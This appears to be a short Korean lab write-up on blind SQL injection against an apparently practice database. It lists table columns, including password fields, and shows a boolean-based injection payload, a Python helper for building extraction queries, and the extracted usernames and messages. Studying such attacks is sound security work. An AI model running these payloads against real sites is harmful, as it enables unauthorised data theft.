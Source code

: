 - 추출한 데이터.

```
MEMBERS 컬럼이름
SID
ID
PASSWORD
EMAIL
INFO
HASHPWD

TEST 컬럼이름
MSG
```


## 데이터 추출하기
- 테이블에  저장되어 있는 데이터 추출하기.

```sql
select 컬럼이름 from 테이블명 OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;

select MSG from TEST OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY;

공격 포맷 = ' user2' and ((ascii(substr((select MSG from TEST OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY),1,1)))>0) and '1'='1 '
```

- 파이썬 코드로 빠르게 데이터 추출하기.

```python
def find_table_data(column, table_name):
    query = "select "+column+" from "+table_name
    find_data(query)
    return
```

- 추출한 데이터.

```
MEMBERS 데이터 추출
root
dad
user123
user2

TEST 데이터 추출
blind sql injection success
```

## 결과
![Pasted image 20230512003709](https://github.com/MinGyu2/MinGyu2.github.io/assets/31990118/2b4957ca-e70d-4f4b-bd3e-01a45970eaaa)


## 전체 코드
<script src="https://gist.github.com/MinGyu2/ed9926c11854380ea75abef3fbdfa4e5.js"></script>